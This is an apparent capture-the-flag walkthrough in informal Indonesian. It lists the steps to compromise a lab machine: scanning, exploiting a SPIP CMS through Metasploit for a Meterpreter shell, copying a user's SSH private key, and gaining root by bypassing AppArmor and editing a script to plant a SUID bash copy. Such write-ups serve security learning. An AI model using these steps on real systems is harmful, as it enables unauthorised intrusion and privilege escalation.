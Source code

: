 1. scan 80 22 buka -> fuzz gada -> coba cek /spip soalnya webnya ada spip spip
2. cek source code ada versi spipnya -> searchsploit atau lgsg di msfconsole -> gas aja
3. msfconsole -> targeturi itu path spip nya /spip jadi -> rhost ip target -> lhost ip vpn -> run
4. dapet meterpreter -> shell aja atau meterpreter -> di /home/user bisa cat flag -> ke .ssh copy id_rsa -> chmod 600 ssh
5. find / -type f -perm -u=s 2>/dev/null -> cek run container -> jalanin -> ada error di opt -> kesana coba
6. ps -p $$ -> ada ash -> coba find / -name *ash 2>/dev/null
7. ada di apparmor cek coba -> ada di hint juga -> cat baca yg di deny dan writeable
8. cp /bin/bash /dev/shm -> cd kesitu -> /dev/shm/bash -p -> ls -l /opt udah bisa 
9. nano /opt/run_container.sh tuh -> shebang, cp /bin/bash /tmp/bash, chmod +s /tmp/bash
10. ke /opt -> ls -> run aja container nya ->  ls /tmp -> /tmp/bash -p  -> klaim root
